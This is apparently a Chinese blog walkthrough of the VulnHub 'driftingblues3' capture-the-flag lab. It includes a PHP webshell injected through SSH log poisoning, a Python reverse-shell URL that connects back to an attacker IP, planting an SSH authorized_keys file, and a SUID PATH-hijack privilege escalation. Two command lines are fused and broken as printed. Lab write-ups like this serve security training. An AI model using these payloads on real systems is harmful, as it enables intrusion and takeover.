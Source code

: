 ```yaml
---
title: driftingblues3 VulnHub Walkthrough
date: 2021-10-13 16:53:47
categories:
- 渗透测试
tags:
- VulnHub
---
```


## driftingblues3 VulnHub Walkthrough

### 信息收集

#### 主机发现

```
arp-scan -l
```

![](https://i.loli.net/2021/10/13/gbHz2QBdPq1Fr5m.png)

#### 端口扫描

```
nmap -sC -sV -p- 192.168.62.173 
```

![](https://i.loli.net/2021/10/13/dyUSqGQHbJYXtcP.png)

只开放了22和80端口，先访问80端口看看

![](https://i.loli.net/2021/10/13/v23PbJpqjdwMiXl.png)

好像没有什么信息，扫一下目录

```
dirsearch -u http://192.168.62.173/
```

![](https://i.loli.net/2021/10/13/QvTbR73iftpaIZY.png)

有点奇怪，逐个看了一下，好像都是没用的信息

![](https://i.loli.net/2021/10/13/DcIX8Bov5bh4KlS.png)

再看看robots.txt，是唯一有用的路径

![](https://i.loli.net/2021/10/13/Z97ixT5SKCVjzuy.png)

接着访问一下

![](https://i.loli.net/2021/10/13/RnyvEz1OImLurMZ.png)

emmm再接再厉，继续访问

![](https://i.loli.net/2021/10/13/dWAkgJ5BQLy81OI.png)

好像是诗歌还是歌词，目前没有什么信息，查看一下源码

![](https://i.loli.net/2021/10/13/hV3pdTlWcbvkABE.png)

base64编码，到在线网站转换一下

<img src="https://i.loli.net/2021/10/13/8EgkBodRq1YjAOH.png" style="zoom: 67%;" />

哎，还要再转换一次

<img src="C:\Users\Colin\AppData\Roaming\Typora\typora-user-images\image-20211013094132850.png" style="zoom:67%;" />

提示了一个php文件，去访问一下

![](https://i.loli.net/2021/10/13/JPCuhSeUZXnOkRq.png)

### 漏洞发现

这个php文件是应该ssh登录日志，先随便尝试一下登录，看会不会有记录

![](https://i.loli.net/2021/10/13/nFKbN5to2rTjSHa.png)

可以看到两个登录用户名都已经记录了，那接下来就尝试通过日志写shell

![](https://i.loli.net/2021/10/13/UXd7Z2kRHJmP8cu.png)

### 漏洞利用&getshell

以php的webshell作为用户名来登录ssh

```
ssh '<?php system($_GET["cmd"]);?>'@192.168.62.173
```

![](https://i.loli.net/2021/10/13/VQBO5Tumo1YRdLN.png)

看一下效果，看到已经可以执行命令了

![](https://i.loli.net/2021/10/13/hEsStkQvywi58UL.png)

#### 反弹shell

先看一下有没有python环境

![](https://i.loli.net/2021/10/13/JajMB9ytKZoHbur.png)

可以看到，靶机是有python3环境的，那就试试python来反弹shell

先开启一个监听端口来接收反弹的shell

![](https://i.loli.net/2021/10/13/e6KnGq2tVahXDj3.png)

访问一下

```
http://192.168.62.173/adminsfixit.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.62.134%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27
```

在本机已经接收到了shell

![](https://i.loli.net/2021/10/13/i1go6kHnBwEvKqZ.png)

#### SSH登录

进入到/home/robertj目录，发现.ssh是有写权限的，那我们就可以将我们的公钥写进去，实现免密登录

先在本地生成公私钥

```
ssh-keygen	#一直回默认就可以
```

<img src="C:\Users\Colin\AppData\Roaming\Typora\typora-user-images\image-20211013101639087.png" style="zoom:80%;" />

进入本地ssh目录，查看一下id_rsa.pub

![](https://i.loli.net/2021/10/13/86VYpyWAalHc1I3.png)

将id_rsa.pub的内容复制到authorized_keys

```
cat id_rsa.pub >> authorized_keys
```

然后上传到靶机的ssh目录，先在本机用python开启一个http服务

```
python3 -m http.server 80
```

![](https://i.loli.net/2021/10/13/McPewFdQo6hHbUx.png)

到靶机的ssh目录通过wget下载

```
wget http://192.168.62.134/authorized_keys
```

![](https://i.loli.net/2021/10/13/Gj84pDCxswU3HM5.png)

现在可以实现ssh免密登录了

![](https://i.loli.net/2021/10/13/IhaoP4B9NQnbAKF.png)

先获取第一个flag

<img src="C:\Users\Colin\AppData\Roaming\Typora\typora-user-images\image-20211013103206811.png" style="zoom:67%;" />

### 权限提升

先看一下具有suid的可执行文件

```
find / -perm -u=s -type f 2>/dev/null
```

![](https://i.loli.net/2021/10/13/K9mLIjMbpYq5Du2.png)

看到有一个getinfo命令，先执行一下看看

<img src="C:\Users\Colin\AppData\Roaming\Typora\typora-user-images\image-20211013110202929.png"  />

看着应该是分别执行了ip a、cat /etc/hosts、uname -a命令

那么执行具有suid的getinfo时，将会执行ip、cat、uname，那我们就可以写一个模拟可执行文件

这里我在tmp目录新建一个文件ip，并赋予执行权限

```
echo "/bin/bash" > /tmp/ipchmod +x /tmp/ip
```

![](https://i.loli.net/2021/10/13/vGzTbRejQkKW7NB.png)

最后，添加一个环境变量/tmp，这样再执行一次具有suid的getinfo时，就会以root权限执行我们新建的/tmp/ip，我们就可以提权到root了

```
export PATH=/tmp:$PATH/usr/bin/getinfo
```

![](https://i.loli.net/2021/10/13/jafxOrYPwXck6SQ.png)

现在可以获取第二个flag了

<img src="https://i.loli.net/2021/10/13/N6vYROXlgVuKbWU.png" style="zoom:67%;" />

